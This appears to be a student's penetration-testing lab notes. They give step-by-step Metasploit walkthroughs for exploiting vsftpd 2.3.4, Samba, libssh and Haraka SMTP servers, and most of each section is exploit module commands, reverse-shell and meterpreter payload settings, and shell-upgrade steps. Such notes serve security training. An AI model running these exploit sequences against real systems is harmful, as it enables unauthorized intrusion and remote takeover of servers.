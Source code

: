 
### Exploiting a vulnerable FTP server 

- port 21 - facilitate file sharing between server and clients 
- transfer files to and from the directory of a web server 
- vsftpd is an FTP server for Unix-like systems including Linux systems and the default FTP server for ubuntu, CentOS and Fedora 
- **vsftpd** V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through supply chain attack.

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) perform service detection, operating detection and syn scan: `db_nmap -sS -sV -O ip `
6) `search vsftpd `
7) `use exploit/unix/ftp/vsftpd_234_backdoor `
	(try: )1) `set payload cmd/unix/interact` 
8) open bash terminal on target system: ` /bin/bash -i ` which will open a shell on target to upgrade the shell go to the next step 
9) upgrade session to meterpreter session (put other session in background)
	1) `search shell_to_meterpreter` (will upgrade current shell session to meterpreter session)
	2) `use post/multi/manage/shell_to_meterprete`r (this is a post module so you can only use it when you have an active session on the target system) -> specify options (`set` `session` to `1` (this is the session that we want to upgrade))
	3) `sessions` 
![[Pasted image 20230827153708.png]] 
When userid is 0 then you are root user 


### Exploiting Samba 

- Samba is linux implementation of SMB and allows windows systems to access linux shares and devices 
- uses 445 (TCP) or NetBIOS 139 
- Samba V3.5.0 is vulnerable to a remote code execution vulnerability, allowing a malicious client to upload a shared library to a writeable share, and then cause the server to load and execute it. 
	- Shared library is linux equivalent of a DLL file (libraries called upon by services)

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) `db_nmap -sS -sV -O ip`
6) `search type:exploit name:samba`
7) `use exploit/linux/samba/is_known_pipename`
8) run the check command to check if target is vulnerable: `check`
9) `run` 
10) `pwd` (print current working directory) -> put this session in the background so we can work on upgrading to a meterpreter session because it will give us more access
11) `use post/multi/manage/shell_to_meterpreter `
	1) set lhost to kali linux instance 
	2) leave default port 
	3) set the session you want to upgrade (command shell session --> meterpreter session)
	4) when `uid` is zero you have highest privileges' 


### Exploiting Vulnerable SSH server 

- SSH (secure Shell) remote administration protocol that offers encryption 
- used for remote access to servers and systems 
- SSH uses port 22 (or other ports)
- libssh is multiplatform C library implementing the SSHv2 protocol on client and server side 
- libssh V0.6.0-0.8.0 is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server 


1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) `db_nmap -sS -sV -O ip`
6) check if system is vulnerable: `search libssh_auth_bypass `
7) `use aux/scanner/shh/libssh_auth_bypass `
	1) `set Spawn_PTY true`  
8) ` session 1` ---> `whoami`
9) `whoami` 
10) `cat /etc/\*\release`
11) get kernel version `uname -r`
12) upgrade shell session into meterpreter session - put current session in background: 
	1) `use post/multi/manage/shell_to_meterpreter `
	1) set lhost to kali linux instance 
	2) leave default port 
	3) set the session you want to upgrade (command shell session --> meterpreter session)
	4) when `uid` is zero you have highest privileges' 







### Exploiting Vulnerable SMTP server 

- Simple Mail Transfer protocol is communication protocol that is used for transmission of email 
- uses port 25 by default or 465 and 587 
- Haraka is an opensource high performance SMTP server developed in Node.js 
- The Haraka SMTP server comes with a plugin for processing attachments. Haraka version prior to V2.8.9 are vulnerable to command injection 

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) `db_nmap -sS -sV -O ip`
6) `use  exploit/linux/smtp/haraka `
	1) `set srvport 9898`  (we need port 8080 as our lport so we need to change it)
	2) `set email_to root@attackdefense.test `
	3) `set payload linux.x64/meterpreter_reverse_http ` (stageless payload)
	4) `options` 
	5) `set lhost eth1 `
	6) `run` 

